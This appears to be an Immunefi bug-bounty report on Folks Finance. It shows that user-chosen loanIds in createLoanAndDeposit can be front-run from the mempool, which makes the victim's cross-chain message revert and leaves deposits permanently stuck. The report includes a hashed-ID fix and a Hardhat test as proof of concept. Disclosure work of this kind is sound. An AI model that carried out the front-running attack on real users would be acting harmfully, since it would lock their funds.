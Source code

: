 # Boost \_ Folks Finance 33869 - \[Smart Contract - Medium] loanIds are easy to reproduce and front-running enable malicious parties to lock user funds

Submitted on Wed Jul 31 2024 14:44:48 GMT-0400 (Atlantic Standard Time) by @jovi for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33869

Report type: Smart Contract

Report severity: Medium

Target: https://immunefi.com/

Impacts:

* Permanent freezing of funds

## Description

## Brief/Intro

When creating a loan and a deposit at a single transaction, users can arbitrarily select the loanId as an argument for the createLoanAndDeposit function at the SpokeToken contract:

```solidity
function createLoanAndDeposit(
        Messages.MessageParams memory params,
        bytes32 accountId,
        bytes32 loanId,
        uint256 amount,
        uint16 loanTypeId,
        bytes32 loanName
    ) external payable nonReentrant {
```

This loanId can be observed by mempool watchers and front-run in order to induce transaction reversion when the bridge adapters attempt to receive the message to create the loan at the target chain.

## Vulnerability Details

When creating a loan and a deposit, a user can pick any loan id as he/she desires. However, any other user can call the same function with the same loanId but with a different amount of assets.

The issue with that lies at the LoanManager's createUserLoan function at the Hub chain, as it reverts if the loanId has already been created:

```solidity
function createUserLoan(
...
if (isUserLoanActive(loanId)) revert UserLoanAlreadyCreated(loanId);
...
}
```

So, if 1 user attempts a createLoanAndDeposit function call and sends some assets he/she is always at risk at being front-run and locking the assets without clear pathways for recovery.

## Impact Details

Users that create new loans with deposits may end up having their funds stuck if they are front-run.

In case the bridge logic is Chainlink's CCIP, the funds will be irrecoverable, as both the TokenAdapter and DataAdapter are non-upgradeable and Chainlink's manual execution (as a manner to attempt to receive the message again) will keep reverting. Since the adapters also don't have `retryFailedMessage` implementations, the funds are stuck.

As the TokenAdapter and DataAdapter contracts do not gracefully handle errors by calling the actions inside ccipReceive in try/catch blocks, there will be no other mechanism to attempt running the message again at the Hub chain.

The SpokeToken contracts don't have built-in mechanisms to return the funds to users in case the message fails at the target chain. Therefore users may lose their funds with no chance of recovery.

## References

[Transfer Tokens with Data - Defensive Example | Chainlink Documentation](https://docs.chain.link/ccip/tutorials/programmable-token-transfers-defensive#receiving-and-processing-messages)

[documentation/public/samples/CCIP/usdc/Receiver.sol at 11879087fa2ed3a1dda5461886dd8257b6180325 · smartcontractkit/documentation (github.com)](https://github.com/smartcontractkit/documentation/blob/11879087fa2ed3a1dda5461886dd8257b6180325/public/samples/CCIP/usdc/Receiver.sol#L123C1-L124C80)

## Mitigation

The usage of hash-based loan IDs may fix the issue, as the one-way cryptographic property may make it impossible to reproduce loan IDs. Consider the following solution:

```solidity
function createLoanAndDeposit(
    Messages.MessageParams memory params,
    bytes32 accountId,
    bytes32 loanSalt,
    uint256 amount,
    uint16 loanTypeId,
    bytes32 loanName
) external payable nonReentrant {
    bytes32 _loanId = keccak256(
        abi.encodePacked(loanSalt, accountId, amount, loanTypeId, loanName)
    );
    _doOperation(
        params,
        Messages.Action.CreateLoanAndDeposit,
        accountId,
        amount,
        abi.encodePacked(_loanId, amount, loanTypeId, loanName)
    );
}
```

## Proof of concept

## Proof of concept

Hub chain: Avax Spoke chain: ETH

Alice is currently in ETH and wants to create a loan and deposit 100e18 worth of tokenA at Avax.

She calls the SpokeToken createLoanAndDeposit function with loanId set to 0x01.

Bob observes the mempool and front-runs her call by creating a loan and deposit with 1e18 worth of tokenA and loanId = 0x01.

Since Bob has front-run Alice, CCIP router picks up Bob's message first and creates the loan at the Hub chain for him.

The CCIP router then attempts to create a loan for Alice, but since a loan with equal ID already exists, it reverts and the message is lost.

The following test can also be placed at the Hub.test.ts file, but it will not revert at the final condition as the MockLoanManager contract doesn't implement any logic but to emit the CreateUserLoan event:

```typescript
it("Should not be able to create loan with same loan Id", async () => {
        const { user, poolId, bridgeRouter, loanManager, spokeChainId, spokeAddress, hubAddress } =
          await loadFixture(deployHubFixture);

        // call create user loan and deposit
        const messageId: string = getRandomBytes(BYTES32_LENGTH);
        const accountId: string = getAccountIdBytes("ACCOUNT_ID");
        const loanId: string = getRandomBytes(BYTES32_LENGTH);
        const amount: bigint = BigInt(1e18);
        const loanTypeId: number = 0;
        const loanName: string = getRandomBytes(BYTES32_LENGTH);
        const payload = buildMessagePayload(
          Action.CreateLoanAndDeposit,
          accountId,
          user.address,
          ethers.concat([
            loanId,
            convertNumberToBytes(poolId, UINT8_LENGTH),
            convertNumberToBytes(amount, UINT256_LENGTH),
            convertNumberToBytes(loanTypeId, UINT16_LENGTH),
            loanName,
          ])
        );
        const message: MessageReceived = {
          messageId,
          sourceChainId: BigInt(spokeChainId),
          sourceAddress: convertEVMAddressToGenericAddress(spokeAddress),
          handler: convertEVMAddressToGenericAddress(hubAddress),
          payload,
          returnAdapterId: BigInt(0),
          returnGasLimit: BigInt(0),
        };
        const createUserLoanAndDeposit = await bridgeRouter.receiveMessage(message);

        // verify create user loan and deposit are called
        await expect(createUserLoanAndDeposit)
          .to.emit(loanManager, "CreateUserLoan")
          .withArgs(loanId, accountId, loanTypeId, loanName);
        await expect(createUserLoanAndDeposit)
          .to.emit(loanManager, "Deposit")
          .withArgs(loanId, accountId, poolId, amount);
        await expect(createUserLoanAndDeposit).to.emit(bridgeRouter, "MessageSucceeded").withArgs(message.messageId);

        const messageId2: string = getRandomBytes(BYTES32_LENGTH);
        const accountId2 = getAccountIdBytes("ACCOUNT_ID2");
        const payload2 = buildMessagePayload(
          Action.CreateLoanAndDeposit,
          accountId2,
          user.address,
          ethers.concat([
            loanId,
            convertNumberToBytes(poolId, UINT8_LENGTH),
            convertNumberToBytes(amount, UINT256_LENGTH),
            convertNumberToBytes(loanTypeId, UINT16_LENGTH),
            loanName,
          ])
        );
        const message2: MessageReceived = {
          messageId: messageId2,
          sourceChainId: BigInt(spokeChainId),
          sourceAddress: convertEVMAddressToGenericAddress(spokeAddress),
          handler: convertEVMAddressToGenericAddress(hubAddress),
          payload: payload2,
          returnAdapterId: BigInt(0),
          returnGasLimit: BigInt(0),
        };
        const createUserLoanAndDeposit2 = (await bridgeRouter.receiveMessage(message2));
        await expect(createUserLoanAndDeposit2)
          .to.revertedWith("UserLoanAlreadyCreated");
      });
```

It can be run with the following command from the main folder:

```shell
npx hardhat test --grep "Should not be able to create loan with same loan Id"
```
